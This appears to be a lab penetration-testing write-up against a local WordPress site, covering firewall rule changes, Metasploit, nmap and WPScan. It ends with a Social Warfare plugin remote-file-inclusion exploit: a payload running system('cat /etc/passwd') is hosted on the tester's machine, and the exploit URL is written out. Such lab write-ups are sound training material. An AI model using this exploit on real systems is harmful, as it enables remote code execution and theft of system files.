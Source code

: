 We launch a browser and enter the following URL: http://www.megaquagga.local
<img width="1047" alt="Screenshot 2025-04-16 at 7 43 00 AM" src="https://github.com/user-attachments/assets/7a086d45-4cc0-4ec2-8e78-f963d7c57f93" />

Now we take a look from another angle.
Let’s check if we have network connectivity by reaching the megaquagga.local website via ping.
We open a new terminal window and enter the following ping command:
ping www.megaquagga.local
<img width="1046" alt="Screenshot 2025-04-16 at 8 00 57 AM" src="https://github.com/user-attachments/assets/3c7b3aba-df30-474e-a0c6-ad12b00bd590" />
It appears that the target system (or something sitting in-between us and the target system) is blocking ICMP packets. To change this we need to access the pfSense firewall’s administrative interface
<img width="1057" alt="Screenshot 2025-04-16 at 8 11 59 AM" src="https://github.com/user-attachments/assets/11ee05b0-edbc-4908-8b6c-4cda5541c17a" />
Login and change the firewall policy.
In the top menubar, click on Firewall → Rules:
<img width="1051" alt="Screenshot 2025-04-16 at 8 17 16 AM" src="https://github.com/user-attachments/assets/25ab08a7-9591-468e-a79b-e8907ef292d8" />
To allow our ping to pass through the firewall’s policy, we’ll now need to define a new rule that explicitly permits ICMP traffic within the appropriate network scope.
The WAN tab is displyed by default:
<img width="1051" alt="Screenshot 2025-04-16 at 8 25 55 AM" src="https://github.com/user-attachments/assets/7e8fa155-2191-4833-9f1a-a542e6434c38" />
We click the first green Add button to add a rule to the top of this firewall’s list of WAN policies:
<img width="1074" alt="Screenshot 2025-04-16 at 8 28 08 AM" src="https://github.com/user-attachments/assets/77cc76b5-c394-4b07-b6a9-4c1b0bedbeb6" />
we need ping packets to pass through that means we need to enable ICMP.
Change Protocol to ICMP:<img width="1045" alt="Screenshot 2025-04-16 at 8 32 54 AM" src="https://github.com/user-attachments/assets/d8d6b772-1c9d-4b02-b485-5e36f826d5d2" />
We make all the nessary changes save and apply change.
We return to our Terminal window again run the ping command again: ping www.megaquagga.local
<img width="1042" alt="Screenshot 2025-04-16 at 8 40 51 AM" src="https://github.com/user-attachments/assets/85139379-6725-4b23-97f1-be3ba6a3830c" />
This time it works.
Now we will use Metasploit for testing and exploiting security vulnerabilities in the systems. 
First we open Metasploit with the following command: sudo msfconsole.

<img width="701" alt="Screenshot 2025-04-16 at 8 55 57 AM" src="https://github.com/user-attachments/assets/9764c78f-6147-40ee-bdea-cccda047d45d" />

Let’s create a workspace named “quagga_0x2a”, where we will store the results of this assessment.
We create a new workspace with the following command: workspace -a quagga_0x2A
We verify the new workspace is active with the following command: workspace

<img width="504" alt="Screenshot 2025-04-16 at 9 14 43 AM" src="https://github.com/user-attachments/assets/1f83aa03-ab4e-402f-a02d-d330ad83c308" />

Now we will run nmap within Metasploit using the website's IP address: db_nmap -A 192.168.100.2

<img width="1100" alt="Screenshot 2025-04-16 at 9 20 37 AM" src="https://github.com/user-attachments/assets/a4209276-8bc8-42d5-b49b-ea8c004188ab" />
We now open a new terminal to run WPScan of the website with the following command: wpscan --url http://www.megaquagga.local

<img width="633" alt="Screenshot 2025-04-16 at 7 48 40 PM" src="https://github.com/user-attachments/assets/10b38dd8-df18-455a-be74-0ca6f4ab23b6" />
<img width="921" alt="Screenshot 2025-04-16 at 7 55 17 PM" src="https://github.com/user-attachments/assets/7c839e28-d5cd-41ac-a76c-569bebc52af8" />
After running the scan we discover that there are outdated plugins, so we decided to exploit the plugin that was the most outdated which was Social-Warfare. After some research online about social-warfare exploit we choose one that involve creating a payload. we created a simple text file and type the following text in the file:<pre>system('cat /etc/passwd')</pre> and save it under the name payload.txt
<img width="955" alt="Screenshot 2025-04-16 at 8 12 43 PM" src="https://github.com/user-attachments/assets/cc6b7c15-44fe-432a-8885-3017843a7394" />
Now we have to sep up a server to to host the payload, to do this we open a new terminal and type the following: python3 -m http.server
<img width="569" alt="Screenshot 2025-04-16 at 8 22 42 PM" src="https://github.com/user-attachments/assets/02e8f75a-2816-4a3e-b118-3a4ba4242272" />
Now it's time to test our payload, we create a new text file and add the exploitable URL into the blank text document: http://www.megaquagga.local/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.100.20:8000/payload.txt. 